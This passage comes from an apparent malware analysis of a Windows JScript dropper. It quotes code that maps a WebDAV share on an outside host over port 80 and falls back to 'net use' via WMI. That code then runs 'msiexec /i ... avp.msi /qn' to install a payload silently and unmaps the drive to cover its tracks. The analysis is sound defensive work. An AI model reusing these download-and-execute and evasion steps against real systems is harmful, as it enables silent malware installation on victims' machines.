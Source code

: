 ### Step 3: Mapping the Network Drive (Primary Method)
- **`network.MapNetworkDrive(letter, "\\\\krd6.com@80\\share\\")`**: This is the core of the download mechanism.
  - It attempts to map the available drive letter to a remote share.
  - The path `\\krd6.com@80\share\` is a **WebDAV trick**. By including `@80`, it instructs Windows to attempt the connection over **port 80 (HTTP)** instead of the standard SMB port (445). This is a common firewall bypass technique, as port 80 is almost always open for web traffic.

### Step 4: Fallback Mechanism (if Primary Fails)
- If `MapNetworkDrive` fails multiple times, the script falls back to a more direct command-line approach.
- **`var command = 'net use ' + letter + ' \\\\krd6.com@80\\share\\ /persistent:no';`**: It constructs a `net use` command string.
- **`wmi.Get("Win32_Process").Create(command, ...)`**: It uses **WMI** to execute the `net use` command. This is often preferred by malware over `WScript.Shell.Run` as it can be less noisy and harder to detect by some security tools.
- It then waits for 3 seconds to give the command time to complete.

### Step 5: Payload Execution
- If the drive is successfully mapped (either by the primary or fallback method), it proceeds to execute the payload.
- **`var installCommand = 'msiexec.exe /i \\\\...\\avp.msi /qn';`**: It builds a command to run the Windows Installer.
  - `msiexec.exe`: The legitimate Windows Installer process.
  - `/i`: Specifies installation.
  - `\\<drive>\\avp.msi`: The path to the malicious installer on the now-mapped network drive.
  - `/qn`: The "quiet, no UI" flag. This ensures the installation happens **silently** in the background with no prompts shown to the user.
- **`wmi.Get("Win32_Process").Create(installCommand, ...)`**: Again, it uses WMI to run the installer process silently.

### Step 6: Cleanup
- **`network.RemoveNetworkDrive(letter, true, true);`**: After launching the installer, the script immediately tries to unmap the network drive. This is done to remove evidence of the network connection.

---

## 3. Stage 2: Self-Extraction and Execution

This part of the script is an elegant mechanism for hiding and running a second payload without needing a separate file.

### Step 1: The Self-Executing Module
- The code is wrapped in an **IIFE (Immediately Invoked Function Expression)**: `(function() { ... })();`. This creates a private scope for its variables and functions.

### Step 2: Reading Its Own Source Code
- **`var scriptPath = WScript.ScriptFullName;`**: Gets the full path to the currently running `.js` file.
- **`fileSystem.OpenTextFile(scriptPath, 1)`**: It opens its own source file for reading.

